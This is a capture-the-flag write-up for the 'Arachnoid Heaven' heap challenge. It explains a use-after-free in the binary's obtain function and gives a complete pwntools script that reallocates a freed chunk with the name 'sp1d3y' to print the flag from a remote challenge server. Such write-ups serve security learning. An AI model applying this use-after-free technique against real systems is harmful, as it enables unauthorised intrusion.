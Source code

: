 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_menu.png)

Reading the pseudocode in ida, we come across the **obtain** function:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_win_func.png)

It checks if the *Code* corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a **Use-After-Free vulnerability**.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```

## And there we have it:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_flag.png)
